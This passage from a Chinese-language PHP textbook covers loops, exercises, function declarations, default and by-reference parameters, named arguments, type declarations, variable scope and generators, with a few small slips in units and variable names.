

示例：

以下示例说明了使用 PHP `for` 循环生成具有不同层级的 HTML 标题标签。循环遍历 1 到 6 的标题层级，并显示带有相应标题层级的句子。

```php
for ($i = 1; $i <= 6; $i++) {
    echo "<h$i>Here is the $i level title</h$i>";
}
```

执行此代码得到以下结果：



#### 比较 while 循环和 for 循环

虽然 `while` 和 `for` 循环具有不同的语法，但它们都履行相同的角色，即只要给定条件为 `true`，就重复执行代码块。然而，在某些情况下，根据上下文，可能会首选其中一种。

一般来说，`for` 循环的使用频率高于 `while` 循环，但这也可能取决于个别开发者的偏好和习惯。

确实，`for` 和 `while` 循环都执行相同的功能，即只要条件得到验证，就重复执行代码块。但何时应该选择其中一个而不是另一个？

答案很简单：如果你预先知道所需的重复次数，最好使用 `for` 循环。另一方面，如果重复次数是不确定的且取决于某个条件，则 `while` 循环更合适。这使你能够保持更灵活的循环结构，适用于重复次数未预定义的情况。

#### 总结

为了决定使用哪种类型的循环，重要的是确定迭代次数是否预先已知。如果是这种情况，通常首选 `for` 循环。另一方面，如果代码块至少需要执行一次，则 `do...while` 循环更合适。最后，如果代码块仅基于初始条件执行，则通常使用 `while` 循环。选择最适合每种特定情况需求的循环至关重要。下图说明了 `for`、`do...while` 和 `while` 循环的用法。



#### 结论

总之，本章关于 PHP 循环的内容让我们发现了管理程序中重复任务的强大工具。我们探讨了 `while`、`do...while` 和 `for` 循环，以及它们的区别和适用场景。这些结构赋予我们灵活性，可以执行代码块设定的次数，或直到满足某个条件。

我们还讨论了在何种情况下一种循环可能优于另一种，这取决于待解决问题的复杂性。通过理解每种循环的细微差别，并在不同场景中练习其用法，你将能够编写更高效、更易读的程序。

重要的是要注意，本章未涵盖 `foreach` 循环，它将在数组章节中详细学习。同时，请继续探索和实验 `while`、`do...while` 和 `for` 循环，因为它们是你 PHP 开发工具箱中的基本要素。

#### 练习

#### 练习 8

编写一个程序，使用 `while` 循环显示从 10 到 50 的整数。

#### 练习 9

使用 `for` 循环，编写一个程序计算从 1 到 20 所有整数的乘积（1x2x3x4x5x.....x19x20）。

然后显示结果。

#### 练习 10

使用 `for` 循环，编写 7 的乘法表（1 到 100 所有数字）。该表应以无序列表形式呈现。

#### 练习 11

编写一个程序计算以下求和：

1+3+3² + 3³ + 3⁴ + 3⁵ + ... ... + 3²⁰

### 第 4 章

### PHP 函数与生成器

欢迎来到 PHP 函数章节！函数是任何编程语言的重要组成部分，PHP 也不例外。它们使代码能够以模块化方式组织、高效复用，并变得更具可读性和可维护性。

在本章中，我们将深入探讨 PHP 函数的各个方面。我们将从函数的定义和使用介绍开始，包括声明、调用以及参数和返回值的处理。接下来，我们将研究变量和函数的作用域，以及 PHP 预定义函数的使用。

我们还将深入探讨更高级的主题，例如递归函数、匿名函数、带默认参数的函数和可变参数函数。我们将了解如何包含包含函数的外部文件，以及如何实施良好的函数命名和文档实践。

我们将通过实际例子说明函数的用处，展示它们如何用于解决 PHP 开发中遇到的常见问题。

无论你是初学者还是经验丰富的开发者，本章都将为你提供掌握 PHP 中创建和使用函数艺术所需的知识和技能。那么，让我们一起踏上这段探索 PHP 函数的精彩旅程吧！

#### PHP 函数简介

函数是可定义一次并在脚本的多个位置甚至多个不同脚本中复用的 PHP 代码块。它们将相似的指令和操作分组在一起，使代码更易于管理和维护。在 PHP 中，函数在程序的组织和模块化中起着至关重要的作用。

##### 函数的定义：


### PHP 函数

PHP 中的函数是一组执行特定任务的指令，可以接受参数作为输入以自定义其行为。如果需要，它也可以返回一个输出值。函数的定义包括一个 `name`（名称）、一个 `optional arguments`（可选参数）列表以及一个包含待执行 `instructions`（指令）的函数体。

#### 使用函数的好处

**可复用性**：函数通过将相似的功能组合在一起，避免了代码冗余，使得在不同场景下复用代码变得更加容易。

**模块化**：通过将代码划分为不同的函数，代码变得更易于管理、理解和维护。

**抽象性**：函数抽象了实现细节，使代码更易于理解和修改。

**组织性**：函数可用于通过将相关函数分组来组织代码，使代码更清晰、更具可读性。

#### PHP 函数的通用结构

PHP 函数的通用结构包含以下元素：



- **function**：在 PHP 中用于声明函数的关键字。
- **function_name**：函数的名称，在脚本中必须唯一。
- **(param1, param2, ...)**：函数可接受作为输入的 `optional`（可选）参数列表。
- **{ }**：指示函数体开始和结束的定界符，其中定义了待执行的指令。

PHP 函数的通用结构简单而强大，为在应用程序中创建自定义的、可复用的功能提供了极大的灵活性。

#### 声明和使用函数

##### 无参数函数

如前所述，在 PHP 中，使用 `function` 关键字声明函数，后跟函数名和圆括号，圆括号中可包含可选的函数参数。某些函数执行任务不需要参数。它们定义时圆括号中不带参数。

以下是无参数函数的示例：

```
<?php

 function displayMessage() {  

 $message = "Hello and welcome to the world of PHP.";  

 echo $message;  

 }

?>
```

这段代码定义了一个名为 `displayMessage()` 的函数，它不接受任何参数，声明一个包含字符串 "Hello and welcome to the world of PHP." 的变量 `$message`，然后使用 `echo` 显示该变量。但如果你运行这段代码，不会得到任何结果！事实上，在此阶段，虽然函数已定义，但除非在程序的某处调用它，否则不会自动执行。函数调用可以在代码的多个位置进行，从而允许在不同地方复用同一代码块，而无需每次重写。换句话说，需要函数调用来执行其包含的代码块。

要调用 `displayMessage()` 函数，只需将函数的调用行添加到脚本中（函数外部），如下所示：

```
<?php  

 function displayMessage() {  

 $message = "Hello and welcome to the world of PHP.";  

 echo $message;  

 }

 displayMessage();  

?>
```

执行此代码得到以下结果：



##### 带参数函数

参数是在调用函数时传递给函数的值。这些值可在函数内部用于执行操作。以下是一个接受两个参数的函数示例：

```
<?php

 //Definition of the function that calculates the sum  

 function addition($a, $b) {  

 $sum = $a + $b;  

 echo "The sum is: $sum " ;  

 }  

 addition(10, 20); // Call function with arguments  

?>
```

在本例中，我们定义了一个名为 `addition()` 的函数，它接受两个参数 `$a` 和 `$b`，代表要相加的两个数字。在函数内部，我们将两个参数相加并将结果存储在变量 `$sum` 中。然后，我们使用 `echo` 语句显示结果，并附带一条指示计算出的总和的消息。

定义函数后，我们调用它，传递两个值 10 和 20 作为参数。函数将这两个值相加并显示结果："The sum is: 30"。



##### 从函数返回值

函数可以在其被调用的位置使用 `return` 关键字返回一个值。以下是一个计算圆柱体体积的函数示例：

```
<?php  

 //Definition of the function that calculates the volume  

 function cylinder_volume($radius,$height) {  

 $volume = M_PI * $radius ** 2 * $height;  

 return $volume;  

 }  

 echo cylinder_volume(3,10) ;  

?>
```

在本例中，`cylinder_volume()` 函数接受两个参数作为输入：圆柱体的半径和高度。然后使用公式计算圆柱体的体积，其中 π 是数学常数 π。结果存储在变量 `$volume` 中。函数随后使用 `return` 关键字返回该体积值。

当使用 `echo cylinder_volume(3, 10)` 调用函数时，它计算半径为 3 单位、高度为 10 单位的圆柱体的体积，然后使用 `echo` 命令显示该体积，在本例中结果为 **282.74** 平方单位。

让我们看另一个示例，以表明函数可以被调用任意次数：

```
<?php

 //Definition of the function that returns the double of a number  

 function double($number) {  

 return $number * 2;  

 }

?>
```

一旦定义了该函数，就可以在脚本中随时、按需多次调用它。

```
<?php  

 function double($number) {  

 return $number * 2;  

 }  

 //Function calls  

 echo double(3); //Calculates the double of 3  

 echo "<br>" ;  

 echo double(10); //Calculates double 10  

 echo "<br>" ;  

 echo double(12); //Calculates the double of 12  

 echo "<br>" ;  

 echo double(87); //Calculates double 87  

 echo "<br>" ;  

 echo double(65); //Calculates double 65  

 echo "<br>" ;  

?>
```

执行此代码得到以下结果：



##### 带默认设置的函数

在本节中，我们将了解带默认参数的函数。这些函数允许为某些参数定义默认值，意味着调用函数时可以省略这些参数。

以下是定义带默认参数函数的通用语法：


在该语法中，`$param1` 是必需参数，而 `$param2` 是一个带有默认值的可选参数。

调用函数时，如果未为 `$parametre2` 传递参数，则将使用其默认值。否则，调用时传递的值将替换默认值。

以下是使用带默认参数函数的示例：

```
<?php

 function greet($name = "My friend") {  

 echo "Hello, $name!";  

 }  

 // Function calls with and without parameter specification  

 greet(); // Display "Hello, My friend!"  

 echo "<br>"; // Line break  

 greet("Alice"); // Display "Hello, Alice!  

?>
```

在本例中，`greet()` 函数接受一个默认值为 "My friend" 的 `$name` 参数。当不带参数调用函数时，它使用该默认值。当传递参数时，它会替换默认值，因此执行此代码得到以下结果：


带默认参数的函数在定义函数时提供了额外的灵活性，允许开发者指定默认行为，同时保留根据需要自定义它们的可能性。

示例 2：

```
<?php  

 // Function definition   

 function display_name($firstname, $lastname = "Mercier") {  

 // Checks if the name is not "Mercier".  

 if ($lastname != "Mercier") {  

 echo "Your last name is $lastname and your first name is $firstname";  

 } else {  

 echo "Your first name is: $firstname";  

 }  

 }  

 // call the display_name function with a single argument ("Amandine")  

 display_name("Amandine");  

 echo "<br>";  

?>
```


// 使用两个参数 ("Sarah" 和 "Smith") 调用 `display_name` 函数

`display_name("Sarah", "Smith");`

?>

这段代码定义了一个 `display_name()` 函数，它接受一个必需参数 `$firstname` 和一个默认值为 "Mercier" 的可选参数 `$lastname`。调用函数时，它会检查 lastname 是否不同于 "Mercier"。如果是，则同时显示名和姓，否则仅显示名。

如果运行这段代码，将得到以下结果：


*   当我们使用单个参数调用函数时 (`display_name("Amandine")`)，它使用名字 "Amandine" 和默认姓氏 "Mercier"，因此显示 "Your first name is: Amandine"。
*   当我们使用两个参数调用函数时 (`display_name("Sarah", "Smith")`)，它使用指定的名字 "Sarah" 和姓氏 "Smith"，因此显示 "Your last name is Smith and your first name is Sarah"。

##### 按引用传参的函数

为了引入本节，让我们来看一段将作为参数传递的数字加倍的简单函数代码：

```php
function double($number) {
    $number *= 2;
}

$x = 10;
double($x); // 调用 double() 函数
echo $x;
```

这段代码定义了一个名为 "double" 的函数，它接受一个参数 `$number`。在函数内部，使用复合赋值运算符 `*=` 将 `$number` 的值乘以 2。这意味着 `$number` 变量将被加倍。

接下来，变量 `$x` 被初始化为 10。然后使用 `$x` 作为参数调用 `double` 函数。

如果运行这段代码，你将得到变量 `$x` 的值。在本例中，你将始终得到 10，因为 `double` 函数使用的是 `$x` 值的**副本**，而不是对变量本身的引用。

然而，有时你可能需要函数直接修改作为参数传递的变量的值，并使该更改在程序的其余部分保持有效。为此，你可以使用按引用传参的概念。

按引用传参允许函数直接修改作为参数传递的变量的值。要声明按引用传参，请在函数签名中的参数名称前使用 `&` 符号。

如果我们采用上面相同的示例，并在函数参数前添加 `&` 符号，这将允许 `double` 函数直接修改 `$x` 变量的值，因此在调用函数后显示 `$x` 时将得到 20。

```php
function double(&$number) {
    $number *= 2;
}

$x = 10;
double($x); // 调用 double() 函数
echo $x;
```

##### 按引用传参函数 vs. 按值传参函数

按引用传参的函数允许你直接修改作为参数传递给函数的变量的值，且该更改在退出函数后仍然有效。与按值传参的函数（它们使用作为参数传递的变量值的副本）不同，按引用传参的函数直接作用于原始变量。

理解按引用传参函数的工作原理：

*   当你调用函数并按**引用**传递参数时，PHP 会将原始变量的内存地址存储在内部引用中。
*   在函数内部，当你使用此参数时，PHP 会使用此内部引用直接访问原始变量并进行必要的修改。
*   通过此参数对变量所做的任何修改都会直接影响原始变量，因为 PHP 处理的是变量本身的内存地址，而不是其值的副本。

这使得函数能够直接修改原始变量，并且这些修改在退出函数后仍然保留。这就是为什么当你需要修改变量的值并希望该修改在函数外部可见时，会使用按引用传参。

理解按值传参函数的工作原理：

*   当你调用函数并按**值**传递参数时，PHP 会创建原始变量值的**副本**，并将其分配给一个**新的内存位置**以供函数内部使用。
*   在函数内部，对该按值传递参数所做的任何修改仅影响该**值的副本**，而不会修改函数外部的原始变量。
*   当函数结束时，按值传递的参数值副本被**销毁**，原始变量保持不变。

这意味着在函数内部对按值传递参数所做的修改仅局限于该函数，在外部不可见。当你希望在函数内部使用变量的值而不修改函数外部的原始变量时，通常使用按值传参。

##### 具有命名参数的函数

在 PHP 中，函数还可以接受所谓的命名参数，这在调用具有多个参数的函数时提供了更大的灵活性。请看以下代码：

```php
function infos_display($lastname, $firstname, $age, $isactive){
    return "Last Name: $lastname, First Name: $firstname, Age: $age, Active: $isactive";
}

$person_info = infos_display("Dupont", "Jean_marc", 32, True);
echo $person_infos;
```

在本例中，我们有一个名为 `infos_display` 的函数，它接受四个参数：`$lastname`、`$firstname`、`$age` 和 `$isactive`。然后函数返回由这些参数组成的句子。

然后我们调用此函数，并将返回的值存储在 `$person_info` 变量中，然后显示它。

如果运行这段代码，你将得到类似以下的结果：


但是，如果在调用函数时不遵守参数的顺序会怎样？

```php
$person_info = infos_display(32, True, "Jean-Marc", "Dupont");
echo $person_info;
```

在本例中，我们尝试使用与定义不同的顺序传递参数来调用函数。我们没有遵守函数参数的顺序（姓、名、年龄、是否激活），而是反转了此顺序，并以不同的方式传递值：32 代表姓，True 代表名，"Jean-Marc" 代表年龄，"Dupont" 代表是否激活。

在这种情况下，执行代码将得到以下结果：


我们显示个人信息时获得的结果是不正确的。我们没有得到预期的详细信息，而是得到了意外的输出。为了解决这个问题，PHP 8 引入了命名参数的概念。实际上，命名参数允许以反转参数顺序的方式调用函数。

使用命名参数，我们可以在调用函数时显式指定每个参数的名称，后跟冒号 (`:`)，再后跟其值。这确保了每个实参都与正确的形参相关联，无论它们在函数调用中传递的顺序如何。因此，即使我们在函数调用中反转了实参的顺序，使用命名参数也能保证函数根据其关联的参数正确处理每个值。以下是如何使用命名参数并解决反转函数参数顺序时可能出现的问题。

```php
function infos_display($lastname, $firstname, $age, $isactive) {
    return "Last Name: $lastname, First Name: $firstname, Age: $age, Active: $isactive";
}

$person_info = infos_display(age:32, isactive:True, firstname: "Jean-Marc", lastname: "Dupont");
echo $person_info;
```

当我们执行这段代码时，结果与调用 `infos_display()` 函数并遵守参数顺序时获得的结果相同。


#### PHP 中的类型声明


### PHP 类型声明与变量作用域

#### PHP 中的类型声明

在 PHP 中，可以指定参数和函数返回值的类型，以提高代码清晰度并保证更好的数据完整性。PHP 中可使用两种类型声明：严格类型和弱类型。

##### 弱类型（默认）

默认情况下，PHP 使用弱类型，这意味着函数参数和返回值的数据类型未显式声明。这提供了极大的灵活性，但有时会导致难以检测的错误。

**无类型声明的函数示例：**

```php
<?php

function addition($a, $b) {
    return $a + $b;
}

$result1 = addition(5, 10);
echo $result1 . "<br>";

$result2 = addition(5, "10");
echo $result2 . "<br>";

?>
```

这段 PHP 代码定义了一个名为 `addition()` 的函数，它接受两个参数 `$a` 和 `$b`，并返回这两个参数的和。随后使用不同的参数调用了该函数两次。

在本例中，`addition()` 函数未指定其 `$a` 和 `$b` 参数的类型。它们可以是任意数据类型，函数的结果将取决于传入值的类型。

在第一次调用 `addition(5, 10)` 中，两个参数均为整数（`$a = 5` 且 `$b = 10`）。函数返回这两个数字的和（即 15），该值被赋给变量 `$result1`。最后输出 `$result1` 的值，屏幕显示 15。

在第二次调用 `addition(5, "10")` 中，第一个参数是整数（`$a = 5`），但第二个参数是字符串（`$b = "10"`）。PHP 在加法运算时执行**自动类型转换**，将字符串 "10" 转换为整数。因此，函数同样返回 15（5 和 10 之和），该值被赋给变量 `$result2`。最后输出 `$result2` 的值，屏幕同样显示 15。

总之，对 `addition()` 函数的两次调用结果相同（均为 15），尽管第二次调用对第二个参数使用了字符串。这是由于 PHP 在加法运算期间执行了自动类型转换。

##### 严格类型

严格类型随 PHP 7 引入，允许显式指定参数和函数返回值的数据类型。这使得类型不一致可在开发阶段尽早被检测到，有助于减少错误。

要启用严格类型，必须在 PHP 脚本开头声明指令 `declare(strict_types=1);`：


要声明参数类型，只需在每个参数前指定所需类型；要指定函数返回值的类型，在参数列表后添加冒号（`:`），后跟预期的返回类型。

让我们修改前一个示例，指定参数类型和返回类型：

```php
<?php

declare(strict_types=1);

function addition(int $a, int $b): int {
    return $a + $b;
}

$result1 = addition(5, 10);
echo $result1 . "<br>";

$result2 = addition(5, "10");
echo $result2 . "<br>";

?>
```

运行此代码将得到类似如下的结果：


结果首先显示数字 15，对应变量 `$result1` 的值。当我们调用 `addition(5, 10);` 时，传入了两个整数，这与声明的类型一致。因此，函数将这两个整数相加并返回一个整数结果，存储在变量 `$result1` 中，随后被显示。

然而，在随后的调用 `addition(5, "10");` 中，我们传入了一个整数和一个字符串，这与声明的类型 `int` 不符。由于启用了**严格**类型，这会产生一个致命错误，因为提供的数据类型与函数预期的类型不匹配。因此，脚本停止并显示错误，而不会像未启用严格类型时那样自动将字符串转换为整数。

最后请注意，从 PHP 8 起，可以使用联合类型运算符 `|`（竖线）为同一参数指定多种类型。这允许定义参数可接受多种不同的数据类型。例如，若参数可以是整数或字符串，可按如下方式声明：

```php
<?php

function example(int|string $parameter1, float|int $parameter2) {
    // 函数体
}

?>
```

在本例中，`$parameter1` 可以是整数或字符串。而 `$parameter2` 可以是浮点数或整数。这为函数参数类型定义提供了更大的灵活性。

#### 变量的作用域

变量作用域是编程中的一个基本概念，它决定了变量在 PHP 脚本中的可用范围。理解变量作用域对于编写结构良好的代码、避免逻辑错误以及确保程序平稳运行至关重要。

在 PHP 中，变量根据其在脚本中的位置不同，可以拥有不同的作用域。有些变量可在脚本的任何位置访问，而另一些则被限制在代码的特定部分。

在本节中，我们将探讨 PHP 中不同类型的变量作用域，它们的定义和使用方式，以及有效处理它们的最佳实践。我们还将了解与变量作用域相关的常见陷阱及其规避方法。

让我们首先了解 PHP 中变量作用域背后的主要概念，以及它们如何影响我们的代码编写方式。

##### 全局作用域

在 PHP 中，在任何函数外部声明的变量具有全局作用域。这意味着它们可以在 PHP 脚本的任何位置访问，无论是在函数内部还是外部。

当变量在任何函数外部声明时，它自动成为全局变量。例如：

```php
<?php

$global_variable = "I am a global variable";

function display_global_variable() {
    global $global_variable;
    echo $global_variable;
}

display_global_variable(); // 调用函数

?>
```

在本例中，`$global_variable` 是一个全局变量，因为它在任何函数外部声明。它可以在 `display_global_variable()` 函数内部使用，但前提是必须使用 `global` 关键字。

重要的是要注意，使用全局变量会降低代码的可读性并增加维护难度，因为它们可能在脚本的不同位置被不可预测地修改。因此建议限制全局变量的使用。

执行此代码显示结果：


**警告**：如果尝试在函数内部使用全局变量而不使用 `global` 关键字声明它：

```php
<?php

$global_variable = "I am a global variable";

function display_global_variable() {
    echo $global_variable;
}

display_global_variable(); // 调用函数

?>
```

在这种情况下，你将得到类似如下的错误消息：


##### 局部作用域

在局部作用域中，变量在函数内部声明，只能在该函数内部访问。这些变量仅在函数运行期间存在，函数一结束即被销毁。这意味着它们不能在声明它们的函数外部使用。这种作用域限制有助于避免代码不同部分之间的变量名冲突。

以下示例演示了变量的局部作用域：

```php
<?php

function displayMessage() {
    $message = "Hello, world!";
    echo $message;
}

displayMessage(); // 显示 "Hello, world!"

echo $message; // 尝试访问变量 $message

?>
```


### PHP 中的变量作用域

在本例中，`$message` 变量是在 `displayMessage()` 函数内部声明的，这使其成为该函数的局部变量。此 `$message` 变量无法在其定义所在的函数外部访问。当我们尝试在函数外部显示该变量的值时，会生成一个错误，提示在代码的这一点上无法识别 `$message` 变量。


此演示突出了 PHP 中变量的局部作用域。局部变量仅限于声明它们的函数内部，且不能在该函数外部使用。这有助于避免命名冲突，并使代码更加模块化和有条理。

##### 静态作用域

在函数内部创建的局部变量，会在函数执行结束时自动销毁。然而，在某些情况下，我们可能需要在函数的连续调用之间保留该变量的值，以便稍后使用，因此引入了静态作用域的概念。

PHP 中的静态变量作用域允许变量在连续的函数调用之间保留其值。与每次函数调用时都会创建和销毁的局部变量不同，静态变量即使在函数退出后仍保留其值。

请看以下示例：

```php
<?php

function counter() {

    $counter = 0;

    $counter++;

    echo "Number of function calls : $counter <br>";

}

counter();

counter();

counter();

?>
```

在本例中，我们有一个名为 `counter()` 的函数，每次调用该函数时，它都会将名为 `$counter` 的局部变量初始化为零。然后在每次调用时将此变量加 1，并显示当时的函数调用总数。然而，由于 `$counter` 变量每次函数调用时都会被重新定义且属于该函数的局部变量，因此它每次都会被重置为零。因此，每次调用该函数时，显示的调用次数将始终为“1”。


这突出了这样一个事实：函数中局部变量的作用域仅限于该函数的特定调用，并且局部变量在函数调用完成后会自动销毁。

然而，在某些情况下，我们可能需要在连续的函数调用之间保留该变量的值。为此，只需使用 `static` 关键字声明变量 `$counter` 即可：

```php
<?php

function counter() {

    static $counter = 0;

    $counter++;

    echo "Number of function calls : $counter <br>";

}

counter();

counter();

counter();

?>
```

在本例中，`$counter` 变量使用 `static` 关键字在 `counter()` 函数内部声明为静态变量。每次调用 `counter()` 函数时，`$counter` 变量加 1，且其值在函数的连续调用之间**保留**。这样，每次调用都会显示函数的总调用次数，且该次数随每次调用而递增。


简而言之，PHP 中的变量作用域是一个基本概念，它决定了变量在脚本中的何处以及何时可以被使用。在前文中，我们已经了解了三种变量作用域类型：全局、局部和静态。理解这些不同的作用域对于编写健壮、可维护的代码至关重要。现在让我们来看看这些作用域类型的总结。

##### 全局作用域

*   在任何函数外部声明的变量被视为全局变量。
*   可以使用 `global` 关键字在任何函数内部使用它们。
*   它们的作用域延伸至整个 PHP 脚本。
*   在函数内部对全局变量所做的更改在函数外部也可见。

##### 局部作用域

*   在函数内部声明的变量被视为局部变量。
*   它们只能在声明它们的函数内部访问。
*   局部变量在声明它们的函数结束时立即被销毁（释放内存）。
*   局部变量可以与全局变量同名，但它们具有局部作用域，不会修改同名的全局变量。

##### 静态作用域

*   静态变量使用 `static` 关键字在函数内部声明。
*   与普通局部变量不同，静态变量在函数执行结束时不会被销毁。
*   静态变量的值在连续的函数调用之间得以保留。
*   对函数的每次后续调用都会保留静态变量的值，其值为上一次调用结束时的值。
*   静态变量允许你在函数调用之间存储信息，而无需使用全局变量，从而为局部变量的值提供了一定程度的持久性。


### 生成器：一种特殊的函数类型

PHP 中的生成器是一种特殊的函数，它允许你高效且简洁地创建自定义迭代器。与返回值然后终止的传统函数不同，生成器可以在某个点暂停执行，同时保留其内部状态。这意味着它们可以随着时间的推移产生一系列值，使它们特别适用于处理大量数据或生成无限序列。

定义生成器的语法类似于普通函数，但我们不使用 `return` 关键字来返回值，而是使用 `yield` 关键字。下面是一个生成偶数序列的简单生成器示例：

```php
<?php

function generate_even_numbers($max) {

    for ($i = 0; $i <= $max; $i += 2) {

        yield $i;

    }

}

?>
```

在本例中，函数 `generate_even_numbers()` 是一个生成器，它生成不超过给定最大值的偶数序列。当调用此函数时，它不会立即开始执行其代码。相反，它返回一个生成器对象，该对象可以使用 `foreach` 循环或其他迭代方法进行迭代。

以下是如何使用此生成器显示不超过 17 的偶数：

```php
<?php

function generate_even_numbers($max) {

    for ($i = 0; $i <= $max; $i += 2) {

        yield $i;

    }

}

foreach (generate_even_numbers(17) as $number) {

    echo $number . " ";

}
```

这段代码将产生：`0 2 4 6 8 10 12 14 16` ：


这里有一个更简单的生成器示例，它生成属于给定区间的整数序列：

```php
<?php

function generate_even_numbers2($min, $max) {

    for ($i = $min; $i <= $max; $i++) {

        yield $i;

    }

}

// 使用生成器显示一系列数字

foreach (generate_even_numbers2(21, 35) as $number) {

    echo $number . " ";

}

?>
```

